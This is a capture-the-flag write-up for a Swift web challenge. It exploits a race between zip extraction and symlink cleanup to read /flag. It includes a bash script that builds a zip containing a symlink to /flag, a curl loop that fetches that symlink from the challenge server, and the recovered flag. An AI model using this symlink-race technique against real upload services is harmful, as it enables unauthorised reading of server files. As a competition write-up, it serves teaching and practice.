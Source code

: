We are given a Swift web application where we can upload zips and they will be unzipped on the server. The goal is to read `/flag`, so we just need to create a symlink to `/flag` that we can read.

The most important part of the flow is this:
```swift
    let file = try req.content.decode(Input.self).data
    try IsZipFile(data: file)
    try await req.fileio.writeFile(ByteBuffer(data: file), at: fileName)

    let fileList = try GetEntryListInZipFile(fileName: fileName)
    _ = try Unzip(filename: fileName, filepath: filePath)

    guard try CleanupUploadedFile(filePath: filePath, fileList: fileList) else {
        throw Abort(.internalServerError, reason: "Something Wrong")
    }
```

Where `CleanupUploadedFile` will remove any symlinks that we upload. However there is a race condition, since first the payload is unzipped, and only after that the symlinks are deleted. Which give us a window in which we can read the symlink directly from the web server that will allow us to get the flag.

We can solve this by creating a zip that contains a symlink to `/flag` and then uploading it in a while true. I've also added some empty files to hopefully enlarge the race window:
```bash
#!/bin/bash
echo "symlink.jpg created"
ln -s /flag ./symlink.jpg
echo "photos.zip with symlink created"
rm photos.zip
zip --symlinks photos.zip ./symlink.jpg
for i in `seq 1 8`; do echo "" > "$i"; zip photos.zip "$i"; rm "$i"; done
```

Then, we can try to read the flag by accessing the symlink:
```
while true; do curl -s -X $'GET' \
    -H $'Host: 35.243.120.91:11001' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36' -H $'Accept: */*' -H $'Referer: http://35.243.120.91:11001/viewer' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
    -b $'vapor_session=f7C0Bg7XDgJsQWKZNNDlULuFnO0m5aC+kVNc8XDy/1k=' \
    $'http://35.243.120.91:11001/download/symlink.jpg' | grep -i line; done
```

**LINECTF{af9390451ae12393880d76ea1f6cffc1}**

<a name="g0tcha-g0tcha-doggy"></a>
## G0tcha-G0tcha-doggy (124 pts, 62 solves) - Web

Description:
```
Please enjoy. if you have a problem when you solve this challenge. Please contact wulfsek.

server:1 http://35.243.76.165:11008/

server:2 http://34.85.97.250:11008/
```
